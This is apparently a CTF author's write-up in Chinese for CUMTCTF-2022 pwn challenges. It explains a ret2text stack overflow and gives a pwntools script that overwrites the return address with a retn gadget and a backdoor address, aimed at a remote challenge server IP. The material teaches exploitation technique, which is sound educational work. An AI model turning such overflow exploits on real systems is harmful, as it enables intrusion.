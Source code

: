 ```yaml
---
title: CUMTCTF-2022出题部分wp
date: 2022-6-8 12:04:04
tags: [CTF,Pwn,Crypto,Misc,Python]
categories: 
 - [CyberSecurity,CTF]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## PWN

### nc

这题就不说了吧，连上啥都有，我连要用到的命令解释都给了~

![image-20230426013827815](https://res.cloudinary.com/sycamore/image/upload/v1682444312/Typera/2023/04/6c7177a450f396a3cc1df92db2cec62b.png)
### ret2text
看一下保护：
![image-20230426013852620](https://res.cloudinary.com/sycamore/image/upload/v1682444337/Typera/2023/04/8810580d090cd91812198696d7ddb02d.png)
主函数：
![image-20230426013952537](https://res.cloudinary.com/sycamore/image/upload/v1682444396/Typera/2023/04/b70fb5e227640f018d72822fc557ad7e.png)
后门函数：
![image-20230426013957304](https://res.cloudinary.com/sycamore/image/upload/v1682444400/Typera/2023/04/217429008da529ab0c39ef4f51553b97.png)

栈溢出就行，一张好图理解一下：
![image-20230426014002698](https://res.cloudinary.com/sycamore/image/upload/v1682444407/Typera/2023/04/f1fddeaa3a59bd82ab8dbb7032f73399.png)

思路：用 ‘a' 覆盖 buf 一直到覆盖上ebp，然后将 ret(返回地址) 的地方写入为后门函数的地址。

双击左侧栏的backdoor函数，右侧能找到函数地址如图：
![image-20230426014006566](https://res.cloudinary.com/sycamore/image/upload/v1682444409/Typera/2023/04/0462346171ca0ff7f93c6db0364f57de.png)

直接照思路这么写，能打通本地，但是会打不通远程，因为栈帧没有平衡（hint），这时候中间插个 retn 的 gadget 就能解决。

随便找个retn的地址
这个就能用：

最后，脚本如下（环境没关，可以继续打远程）：![image-20230426014010146](https://res.cloudinary.com/sycamore/image/upload/v1682444413/Typera/2023/04/d5ad6da67403e757b9bc721f47816524.png)

```python
from pwn import *

#r=process(b'./ret2text')
r=remote(b'106.15.52.194',10002)
backdoor=0x4011DD
retn=0x401203
p=b'a'*40+p64(retn)+p64(backdoor)
r.sendlineafter(b'2022!',p)

r.interactive()
```
### overflow
保护和之前ret2text的一样，
同样可以使用栈溢出漏洞，但是没有一个写好的 backdoor 函数了。
